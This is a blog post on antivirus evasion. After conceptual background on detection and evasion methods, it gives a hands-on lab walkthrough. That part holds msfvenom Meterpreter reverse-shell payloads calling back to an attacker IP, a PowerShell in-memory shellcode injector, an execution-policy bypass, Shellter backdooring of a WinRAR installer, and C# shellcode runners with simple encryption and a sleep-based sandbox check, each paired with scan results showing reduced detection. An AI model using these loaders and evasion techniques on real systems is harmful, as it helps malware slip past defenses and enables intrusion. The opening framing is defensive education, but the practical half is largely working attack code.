





Case Studies - Antivirus Evasion
Intro
In this blog post, we will delve into the intriguing world of antivirus evasion techniques, exploring the various ways in which malicious actors attempt to outmaneuver security software.From the ingenious obfuscation of malicious code to polymorphic malware that shape-shifts with each attack, we will uncover the dark arts that threat actors employ to bypass even the most resilient antivirus defenses.
However, this blog post is not meant to serve as a guidebook for aspiring hackers; quite the contrary.
Our primary focus will be to shine a light on these stealthy strategies so that both security professionals and ordinary users can better understand the threats they face.
With knowledge comes power, and by comprehending the tactics, we can fortify our defenses and develop effective mitigation solutions to safeguard our digital realm.
Background
The real time protection of the antivirus/antiviruses we test against is turned ON unless otherwise stated.
Both machines have nc.exe installed.
Both systems are x86 (32 bit) systems.
Both systems have a somewhat priviledged "lab" user and an even higher priviledged "admin" user.
What is Antivirus Software?
Antivirus is a type of application designed to prevent, detect, and remove malicious software.It was originally designed to simply remove computer viruses.
However, with the development of other types of malware, antivirus softwares now typicly include additional protections, such as firewalls, application scanners, and more.
Detection Methods
There are multiple methods that antivirus manufacturers utilize to detect malicious software.The most common methods used are: signature-based detection, heuristic-based detection, and behavior-based detection.
Signature-based detection: Signature-based antivirus detection is mostly considered a blacklist technology. In other words, the filesystem is scanned for known malware signatures and if any are detected, the offending files are quarantined. This implies that, with correct tools, we can bypass antivirus software that relies on this detection method fairly easily. Specifically, we can bypass signature-based detection by simply changing or obfuscating the contents of a known malicious file in order to break the identifying byte sequence (or signature).
Heuristic-Based Detection: Heuristic-Based detection is a detection method that relies on various rules and algorithms to determine whether or not an action is considered malicious. This is often achieved by stepping through the instruction set of a binary file or by attempting to decompile and then analyze the source code. The idea is to look for various patterns and program calls (as opposed to simple. byte sequences) that are considered malicious.
Behavior-Based Detection: Behavior-Based detection dynamically analyzes the behavior of a binary file. This is often achieved by executing the file in question in an emulated environment, such as a small virtual machine, and looking for behaviors or actions that are considered malicious.
It is important to note that the majority of antivirus developers use a combination of these detection methods to achieve higher detection rates.
Evasion Methods
Generally speaking, antivirus evasion falls into two broad categories: on-disk and in-memory.On-disk evasion focuses on modifying malicious files physically stored on disk in an attempt to evade AV detection.
Given the maturity of AV file scanning, modern malware often attempts in-memory evasion, avoiding the disk entirely.
On-disk Evasion
To begin our discussion of evasion, we will first look at various techniques used to obfuscate files stored on a physical disk.- Packers: Modern on-disk malware obfuscation can take many forms.
One of the earliest ways of avoiding detection involved the use of packers.
Given the high cost of disk space and slow network speeds during the early days of the Internet, packers were originally designed to simply reduce the size of an executable.
Unlike modern "zip" compression techniques, packers generate an executable that is not only smaller, but is also functionally equivalent with a completely new binary structure.
The resultant file has a new signature and as a result, can effectively bypass older and more simplistic AV scanners.
Even though some modern malware uses a variation of this technique, the use of UPX and other popular packers alone is not sufficient for evasion of modern AV scanners. - Obfuscators: Obfuscators reorganize and mutate code in a way that makes it more difficult to reverse-
engineer.
This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions or "dead code", splitting or reordering functions, and so on.
Although primarily used by software developers to protect their intellectual property, this technique also can be effective against signature-based AV detection. - Crypters: A crypter software cryptographically alters executable code, adding a decrypting stub that
restores the original code upon execution.
This decryption happens in-memory, leaving only the encrypted code on-disk. Encryption has become foundational in modern malware as one of the most effective AV evasion techniques. - Software Protectors: Highly effective antivirus evasion requires a combination of all of the previous techniques in
addition to other advanced ones, including anti-reversing, anti-debugging, virtual machine
emulation detection, and so on.
In most cases, software protectors were designed for legitimate purposes but can also be used to bypass AV detection.
Most of these techniques may appear simple at a high-level but they are actually quite complex.
Because of this, there are currently few actively-maintained free tools that provide acceptable antivirus evasion.
Among commercially available tools, The Enigma Protector in particular can successfully be used to bypass antivirus products. However, it is not always the case.
In-memory Evasion
In-Memory Injections, also known as PE Injection is a popular technique used to bypass antivirus products. Rather than obfuscating a malicious binary, creating new sections, or changing existing permissions, this technique instead focuses on the manipulation of volatile memory.One of the main benefits of this technique is that it does not write any files to disk, which is one the main areas of focus for most antivirus products.
There are several evasion techniques that do not write files to disk.
I will cover in-memory injection using PowerShell in detail and cover the others too which rely on low level programming background in languages such as C/C++.
- Remote Process Memory Injection: This technique attempts to inject the payload into another valid PE that is not malicious. The
most common method of doing this is by leveraging a set of Windows APIs.
First, we would use the OpenProcess function to obtain a valid HANDLE to a target process that we have permissions to access.
After obtaining the HANDLE, we would allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx.
Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly allocated memory using WriteProcessMemory.
After the payload has been successfully copied, it is usually executed in memory in a separate thread using the CreateRemoteThread API.
This sounds complex, but we will use a similar technique in the following example, using PowerShell to do most of the heavy lifting and perform a very similar but simplified attack targeting a local powershell.exe instance. - Reflective DLL Injection: Unlike regular DLL injection, which implies loading a malicious DLL from disk using the LoadLibrary API, this technique attempts to load a DLL stored by the attacker in the process memory. The main challenge of implementing this technique is that LoadLibrary does not support loading a DLL from memory. Furthermore, the Windows operating system does not expose any APIs that can handle this either. Attackers who choose to use this technique must write their own version of the API that does not rely on a disk-based DLL.
- Process Hollowing: When using process hollowing to bypass antivirus software, attackers first launch a non-
malicious process in a suspended state.
Once launched, the image of the process is removed from memory and replaced with a malicious executable image.
Finally, the process is then resumed and malicious code is executed instead of the legitimate process. - Inline hooking: As the name suggests, this technique involves modifying memory and introducing a hook
(instructions that redirect the code execution) into a function to point the execution flow to our
malicious code.
Upon executing our malicious code, the flow will return back to the modified function and resume execution, appearing as if only the original code had executed.
AV Evasion: Practical Example
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.100 LPORT=4444 -f exe > binary.exe
[...]
#
VirusTotal is convenient but it generates a hash for each unique submission, which is then shared with all participating AV vendors.
We will see that we can use AntiScan.Me instead.
# rdesktop 10.11.0.22 -u lab -p lab -g 1024x768 -x 0x80
> nc -lvnp 4455 > C:\Users\lab\Desktop\binary.exe
# nc -w 3 10.11.0.22 4455 < binary.exe
PowerShell In-Memory Injection
Below, we see a basic template script that performs in-memory injection:$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
The script sets the size of the allocated memory block ($size) to 0x1000 (4096 bytes) if the shellcode length is greater than 4096 bytes. While this ensures that the memory allocation is sufficient to hold the shellcode, it doesn't take into account cases where the shellcode length is smaller than 4096 bytes. If the shellcode is smaller, there will be unused memory, which is not efficient. Instead, we can directly use the length of the shellcode to determine the size of the memory allocation:
$sc = <place your shellcode here>;
$size = $sc.Length;We can modify the template script to correct these issues, but it is not necessary as these are not critical issues and it will do the job anyway.
The script starts by importing VirtualAlloc428 and CreateThread429 from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. Once again, notice that we are allocating the memory and executing a new thread in the current process (powershell.exe), rather than a remote one.
The script then allocates a block of memory using VirtualAlloc, takes each byte of the payload stored in the $sc byte array, and writes it to our newly allocated memory block using memset.
As a final step, our in-memory written payload is executed in a separate thread using CreateThread.
We generate a shellcode with msfvenom:
# sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.100 LPORT=4444 -f powershell
[...]
[byte[]] $buf = 0xfc, 0xe8, 0x82, [...]
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = 0xfc, 0xe8, 0x82, [...];
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };We save our script with as av_test.ps1.
Uploading it to VirusTotal.com reveals that only 6 antivirus flag our script as malicious, and Avira is not one of them.
Let's scan the file with Avira on the targeted Windows machine.

Nice! Our powershell script did not trigger any warnings. If we attempt to run our powershell script with the
> powershell .\av_test.ps1
This is because powershell execution policies are set on a per user, rather than a per system basis.
We can: attempt to change the execution policy OR attempt to bypass the execution policy on a per script basis with the
-ExecutionPolicy Bypass
Keep in mind that much like anything in Windows, the PowerShell Execution Policy settings can be dictated by one or more Active Directory GPOs. In those cases it may be necessary to look for additional bypass vectors.
Let's attempt to view and change the current policy for our user.
> Get-ExecutionPolicy -Scope CurrentUser
Undefined
> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
# msfvenom -x "use exploit/multi/handler; set RHOST 10.11.0.22; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.11.0.100"
> show options
> exploit
> .\av_test.ps1
meterpreter > getuid
Server username: WIN10-x86\lab
Excellent!
We have successfully evaded Avira's detection on our target.
Shellter
Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software. It uses a number of novel and advanced techniques to essentially backdoor a valid and non-malicious executable file with a malicious shellcode payload.it essentially performs a thorough analysis of the target PE (portable executable) file and the execution paths. It then determines where it can inject our shellcode, without relying on traditional injection techniques that are easily caught by AV engines. Those include changing of PE file section permissions, creating new sections, and so on. Finally, Shellter attempts to use the existing PE Import Address Table (IAT) entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload.
Not to be confused with the Virtual Function Table (VFT).
We need a legitimate software to which we can inject our malicious payload.
WinRAR will be good for this purpose.
# sudo apt install shellter && sudo apt install wine
# sudo shellter
A
/home/kali/winrar-x32-623.exe
Y
[...]
[1] Meterpreter_Reverse_TCP [stager]
[...]
L
1
SET LHOST: 10.11.0.100
SET LPORT: 4444
[...]
Injection: Verified!
Press [Enter] to continue...
# msfvenom -x "use exploit/multi/handler; set RHOST 10.11.0.22; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.11.0.100; exploit"
> nc.exe -lvnp 4455 > C:\Users\lab\Dekstop\winrar-x32-623.exe
# nc -lvnp 4455 > C:\Users\lab\Dekstop\winrar-x32-623.exe
Since Shellter obfuscates both the payload as well as the payload decoder before injecting them into the PE, the Avira scan runs cleanly.
Once we execute the file, we are presented with the default WinRAR installation window.
We install WinRAR.
meterpreter >
[*] 10.11.0.22 - Meterpreter session 1 closed. Reason: Died
This makes sense because the installer execution has completed and the process has been terminated.
In order to overcome this problem, we can set up an AutoRunScript to migrate our Meterpreter to a separate process immediately after session creation.
If we re-run the WinRAR setup file after this change to our listener instance, we should receive a different result.
> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
> exploit
[...]
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 4832
[+] Successfully migrated to process 4832
meterpreter > getuid
Server username: WIN10-x86\lab
Intermediate Antivirus Evasion
To begin, let's discuss the process of bypassing antivirus signature detection.For this exercise, we must disable the heuristics-based scanning portion of the antivirus engine. In this section, we are going to rely on ClamAV for scanning, which is preinstalled on the targeted Windows 10 victim machine and has its heuristics engine disabled.
Before starting our analysis, we'll launch the Avira Free Antivirus GUI and open the Antivirus pane. In the new window, we'll click Real-Time Protection and switch it "off".

For this example, we'll generate a 32-bit Meterpreter executable and copy it to the C:\Tools folder on our Windows 10 victim machine. This will serve as our malicious binary.
# sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.100 LPORT=4444 -f exe > ./met.exe
directory, and import the Find-AVSignature script as follows:
> powershell -ExecutionPolicy Bypass
> cd C:\Tools
> Import-Module .\Find-AVSignature.ps1
> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
[...]
VERBOSE: Byte 0 -> 0
VERBOSE: Byte 0 -> 10000
VERBOSE: Byte 0 -> 20000
VERBOSE: Byte 0 -> 30000
VERBOSE: Byte 0 -> 40000
VERBOSE: Byte 0 -> 50000
VERBOSE: Byte 0 -> 60000
VERBOSE: Byte 0 -> 70000
VERBOSE: Byte 0 -> 73801
Files written to disk. Flushing memory.
Completed!
From here, we'll launch the clamscan.exe executable, running the scan against the segments in
the C:\Tools\avtest1 folder
> cd 'C:\Program Files\ClamAV\'
> .\clamscan.exe C:\Tools\avtest1
C:\Tools\avtest1\met_0.bin: OK
C:\Tools\avtest1\met_10000.bin: OK
C:\Tools\avtest1\met_20000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest1\met_30000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest1\met_40000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest1\met_50000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest1\met_60000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest1\met_70000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest1\met_73801.bin: Win.Trojan.MSShellcode-7 FOUND
[...]
It is important to note that offsets and number of detections found may vary for each generation of a Meterpreter executable.
We'll run Find-AVSignature again to split the Meterpreter executable with 1000 byte intervals,
but only from offset 10000 to 20000.
> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
> .\clamscan.exe C:\Tools\avtest2
C:\Tools\avtest2\met_10000.bin: OK
C:\Tools\avtest2\met_11000.bin: OK
C:\Tools\avtest2\met_12000.bin: OK
C:\Tools\avtest2\met_13000.bin: OK
C:\Tools\avtest2\met_14000.bin: OK
C:\Tools\avtest2\met_15000.bin: OK
C:\Tools\avtest2\met_16000.bin: OK
C:\Tools\avtest2\met_17000.bin: OK
C:\Tools\avtest2\met_18000.bin: OK
C:\Tools\avtest2\met_19000.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest2\met_20000.bin: Win.Trojan.MSShellcode-7 FOUND
[...]
Let's narrow this further by lowering the interval to 100 bytes and saving to a new directory.
> Find-AVSignature -StartByte 18000 -EndByte 19000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
> .\clamscan.exe C:\Tools\avtest3
C:\Tools\avtest3\met_18000.bin: OK
C:\Tools\avtest3\met_18100.bin: OK
C:\Tools\avtest3\met_18200.bin: OK
C:\Tools\avtest3\met_18300.bin: OK
C:\Tools\avtest3\met_18400.bin: OK
C:\Tools\avtest3\met_18500.bin: OK
C:\Tools\avtest3\met_18600.bin: OK
C:\Tools\avtest3\met_18700.bin: OK
C:\Tools\avtest3\met_18800.bin: OK
C:\Tools\avtest3\met_18900.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest3\met_19000.bin: Win.Trojan.MSShellcode-7 FOUND
[...]
Etc.
I know it is not the most exciting part of this subject.
It is not an effective way to bypass antivirus defenses, so let's move on.
Bypassing Antivirus with Metasploit
We could bypass antivirus with Metasploit encoders or encryptors but utilizing these is not an effective way to bypass antivirus defenses as of 2023, so again, let's move on.Bypassing Antivirus with Shellcode Runner in C#
Let's try to compile our shellcode runner, which is presented as a 64-bit application. It looks like this:using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
namespace ConsoleApp1
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle,
UInt32 dwMilliseconds);
static void Main(string[] args)
{
byte[] buf = new byte[752]{
0xfc,0x48,0x83,0xe4...
}
int size = buf.Length;
IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
Marshal.Copy(buf, 0, addr, size);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}
Copy the compiled executable to the Windows 10 victim machine,
and perform an on-demand scan with Avira:
Nice! Our custom shellcode runner bypassed Avira's signature detection.
A ClamAV scan is also clean.
We would like to know how effective this bypass is. Let's scan our executable with AntiScan.Me.
Looking at the results we see the following:

11 of the 26 engines flagged our executable.
This is not bad for a first attempt, especially considering that these engines executed both signature and heuristic scans.
Remember that uploading the executable to VirusTotal also sends the data to antivirus vendors for analysis.
This could potentially expose the code we just developed.
Encrypting the C# Shellcode Runner
The key to bypassing antivirus signature detections is custom code, and since we want to encrypt the shellcode, we must also create a custom decryption routine to avoid detection.We will implement the Caesar Cipher as it is a more straightforward decryption routine than, for example, aes256.
namespace Helper
{
class Program
{
static void Main(string[] args)
{
byte[] buf = new byte[752] {
0xfc,0x48,0x83,0xe4,0xf0...
}
byte[] encoded = new byte[buf.Length];
for(int i = 0; i < buf.Length; i++)
{
encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
}
StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach(byte b in encoded)
{
hex.AppendFormat("0x{0:x2}, ", b);
}
Console.WriteLine("The payload is: " + hex.ToString());
}
}
}into it and adding the decrypting routine.
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
namespace ConsoleApp1
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle,
UInt32 dwMilliseconds);
static void Main(string[] args)
{
byte[] buf = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2...}
for(int i = 0; i < buf.Length; i++)
{
buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
int size = buf.Length;
IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
Marshal.Copy(buf, 0, addr, size);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}Simple Sleep Timers
One of the more ancient techniques used to bypass behavior analysis involves exploiting time delays. In cases where an application is active within a simulator and the heuristics engine comes across a pause or sleep command, it will accelerate through the delay until the point at which the application recommences its operations.This strategy prevents the need to endure a potentially lengthy waiting period during a heuristics scan.
A straightforward approach to capitalize on this method employs the Win32 Sleep API.
This particular API suspends the execution of the calling thread for a designated duration. When this segment of code is being simulated, the emulator identifies the Sleep call and expeditiously advances through the instruction.
By comparing the time of day before and after the Sleep command, we can easily ascertain whether the call was indeed fast-forwarded.
As an illustration, we can inject a two-second pause, and if the time comparisons show that the two seconds haven't elapsed during the instruction, we can deduce that the simulation is active.
Consequently, we can exit the process prior to executing any suspicious code.
Let's put this into practice.
We will reuse the original unencrypted C# shellcode runner and integrate the Sleep command into the Main method to identify temporal gaps.
In order to accomplish this, we must also include the pinvoke import declaration for Sleep:
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
namespace ConsoleApp1
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle,
UInt32 dwMilliseconds);
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
static void Main(string[] args)
static void Main(string[] args)
{
DateTime t1 = DateTime.Now;
Sleep(2000);
double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
if(t2 < 1.5)
{
return;
}
byte[] buf = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2...}
for(int i = 0; i < buf.Length; i++)
{
buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
int size = buf.Length;
IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
Marshal.Copy(buf, 0, addr, size);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}Executing a scan using the compiled executable produces a noteworthy outcome:

This time, our code drew attention from merely six products.
This signifies progress, given that we've managed to outmaneuver Windows Defender's detection - a feature inherent in the majority of contemporary Windows-based systems.
The enhanced success in evading detection is quite remarkable, especially when considering the longstanding utilization of the Sleep function for evading behavioral analysis for over ten years.
If we only used simple sleep timers, the results would have not improved as we would have not bypass the signature based detections.
We are now on the brink of effectively circumventing all the antivirus products supported by antiscan.me.
As a result, in the ensuing section, we will transition to exploring alternative heuristic bypass techniques.